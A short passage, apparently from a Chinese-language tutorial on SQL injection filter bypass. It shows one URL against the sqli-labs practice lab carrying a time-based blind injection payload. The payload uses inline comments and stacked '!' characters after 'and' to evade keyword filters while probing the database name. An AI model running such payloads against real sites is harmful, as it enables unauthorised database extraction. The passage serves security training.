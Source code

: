 ![在 and 后加 !](./../../../images/SQLi%20Bypass/%E5%9C%A8%20and%20%E5%90%8E%E5%8A%A0%20!.png)

在 and 后再加两个 `!` 

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!!!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

![在 and 后再加两个 !](./../../../images/SQLi%20Bypass/%E5%9C%A8%20and%20%E5%90%8E%E5%86%8D%E5%8A%A0%E4%B8%A4%E4%B8%AA%20!.png)
